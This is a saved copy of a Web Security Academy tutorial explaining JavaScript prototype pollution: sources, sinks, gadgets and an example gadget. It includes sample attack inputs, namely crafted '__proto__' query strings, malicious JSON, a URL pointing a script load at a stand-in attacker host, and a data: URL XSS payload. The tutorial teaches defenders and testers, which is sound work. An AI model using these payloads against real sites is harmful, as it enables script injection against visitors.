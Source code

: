 ```yaml
---
{"dg-publish":true,"permalink":"/research/what-is-prototype-pollution-web-security-academy/","created":"","updated":""}
---
```



# What is prototype pollution? | Web Security Academy

> ## Excerpt
> Prototype pollution is a JavaScript vulnerability that enables an attacker to add arbitrary properties to global object prototypes, which may then be ...

---
Prototype pollution is a JavaScript vulnerability that enables an attacker to add arbitrary properties to global object prototypes, which may then be inherited by user-defined objects.

![Polluting a config object via prototype pollution](https://portswigger.net/web-security/prototype-pollution/images/prototype-pollution-infographic.svg)

Although prototype pollution is often unexploitable as a standalone vulnerability, it lets an attacker control properties of objects that would otherwise be inaccessible. If the application subsequently handles an attacker-controlled property in an unsafe way, this can potentially be chained with other vulnerabilities. In client-side JavaScript, this commonly leads to [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based), while server-side prototype pollution can even result in remote code execution.

#### JavaScript prototypes and inheritance

If you're unfamiliar with how prototypes and inheritance work in JavaScript, we recommend reading the following overview before continuing.

[JavaScript prototypes and inheritance](https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance)

#### Labs

If you're already familiar with prototype pollution and just want to practice on a series of deliberately vulnerable sites, check out the link below for an overview of all labs in this topic.

-   [LABS View all prototype pollution labs](https://portswigger.net/web-security/all-labs#prototype-pollution)

## How do prototype pollution vulnerabilities arise?

Prototype pollution vulnerabilities typically arise when a JavaScript function recursively merges an object containing user-controllable properties into an existing object, without first sanitizing the keys. This can allow an attacker to inject a property with a key like `__proto__`, along with arbitrary nested properties.

Due to the [special meaning of `__proto__`](https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance#accessing-an-object-s-prototype-using-proto) in a JavaScript context, the merge operation may assign the nested properties to the object's [prototype](https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance#what-is-a-prototype-in-javascript) instead of the target object itself. As a result, the attacker can pollute the prototype with properties containing harmful values, which may subsequently be used by the application in a dangerous way.

It's possible to pollute any prototype object, but this most commonly occurs with the [built-in global `Object.prototype`](https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance#the-prototype-chain).

Successful exploitation of prototype pollution requires the following key components:

-   [A prototype pollution source](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-sources) - This is any input that enables you to poison prototype objects with arbitrary properties.
    
-   [A sink](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-sinks) - In other words, a JavaScript function or DOM element that enables arbitrary code execution.
    
-   [An exploitable gadget](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-gadgets) - This is any property that is passed into a sink without proper filtering or sanitization.
    

## Prototype pollution sources

A prototype pollution source is any user-controllable input that enables you to add arbitrary properties to prototype objects. The most common sources are as follows:

-   The [URL](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-via-the-url) via either the query or fragment string (hash)
    
-   [JSON-based input](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-via-json-input)
    
-   Web messages
    

### Prototype pollution via the URL

Consider the following URL, which contains an attacker-constructed query string:

`https://vulnerable-website.com/?__proto__[evilProperty]=payload`

When breaking the query string down into `key:value` pairs, a URL parser may interpret `__proto__` as an arbitrary string. But let's look at what happens if these keys and values are subsequently merged into an existing object as properties.

You might think that the `__proto__` property, along with its nested `evilProperty`, will just be added to the target object as follows:

`{ existingProperty1: 'foo', existingProperty2: 'bar', __proto__: { evilProperty: 'payload' } }`

However, this isn't the case. At some point, the recursive merge operation may assign the value of `evilProperty` using a statement equivalent to the following:

`targetObject.__proto__.evilProperty = 'payload';`

During this assignment, the JavaScript engine treats `__proto__` as a getter for the prototype. As a result, `evilProperty` is assigned to the returned prototype object rather than the target object itself. Assuming that the target object uses the default `Object.prototype`, all objects in the JavaScript runtime will now inherit `evilProperty`, unless they already have a property of their own with a matching key.

In practice, injecting a property called `evilProperty` is unlikely to have any effect. However, an attacker can use the same technique to pollute the prototype with properties that are used by the application, or any imported libraries.

### Prototype pollution via JSON input

User-controllable objects are often derived from a JSON string using the `JSON.parse()` method. Interestingly, `JSON.parse()` also treats any key in the JSON object as an arbitrary string, including things like `__proto__`. This provides another potential vector for prototype pollution.

Let's say an attacker injects the following malicious JSON, for example, via a web message:

`{ "__proto__": { "evilProperty": "payload" } }`

If this is converted into a JavaScript object via the `JSON.parse()` method, the resulting object will in fact have a property with the key `__proto__`:

`const objectLiteral = {__proto__: {evilProperty: 'payload'}}; const objectFromJson = JSON.parse('{"__proto__": {"evilProperty": "payload"}}'); objectLiteral.hasOwnProperty('__proto__'); // false objectFromJson.hasOwnProperty('__proto__'); // true`

If the object created via `JSON.parse()` is subsequently merged into an existing object without proper key sanitization, this will also lead to prototype pollution during the assignment, as we saw in the [URL-based example](https://portswigger.net/web-security/prototype-pollution#prototype-pollution-via-the-url) above.

## Prototype pollution sinks

A prototype pollution sink is essentially just a JavaScript function or DOM element that you're able to access via prototype pollution, which enables you to execute arbitrary JavaScript or system commands. We've covered some client-side sinks extensively in our topic on [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based).

As prototype pollution lets you control properties that would otherwise be inaccessible, this potentially enables you to reach a number of additional sinks within the target application. Developers who are unfamiliar with prototype pollution may wrongly assume that these properties are not user controllable, which means there may only be minimal filtering or sanitization in place.

## Prototype pollution gadgets

A gadget provides a means of turning the prototype pollution vulnerability into an actual exploit. This is any property that is:

-   Used by the application in an unsafe way, such as passing it to a sink without proper filtering or sanitization.
    
-   Attacker-controllable via prototype pollution. In other words, the object must be able to inherit a malicious version of the property added to the prototype by an attacker.
    

A property cannot be a gadget if it is defined directly on the object itself. In this case, the object's own version of the property takes precedence over any malicious version you're able to add to the prototype. [Robust websites](https://portswigger.net/web-security/prototype-pollution/preventing#preventing-an-object-from-inheriting-properties) may also explicitly set the prototype of the object to `null`, which ensures that it doesn't inherit any properties at all.

### Example of a prototype pollution gadget

Many JavaScript libraries accept an object that developers can use to set different configuration options. The library code checks whether the developer has explicitly added certain properties to this object and, if so, adjusts the configuration accordingly. If a property that represents a particular option is not present, a predefined default option is often used instead. A simplified example may look something like this:

`let transport_url = config.transport_url || defaults.transport_url;`

Now imagine the library code uses this `transport_url` to add a script reference to the page:

``let script = document.createElement('script'); script.src = `${transport_url}/example.js`; document.body.appendChild(script);``

If the website's developers haven't set a `transport_url` property on their `config` object, this is a potential gadget. In cases where an attacker is able to pollute the global `Object.prototype` with their own `transport_url` property, this will be inherited by the `config` object and, therefore, set as the `src` for this script to a domain of the attacker's choosing.

If the prototype can be polluted via a query parameter, for example, the attacker would simply have to induce a victim to visit a specially crafted URL to cause their browser to import a malicious JavaScript file from an attacker-controlled domain:

`https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net`

By providing a `data:` URL, an attacker could also directly embed an [XSS](https://portswigger.net/web-security/cross-site-scripting) payload within the query string as follows:

`https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//`

Note that the trailing `//` in this example is simply to comment out the hardcoded `/example.js` suffix.
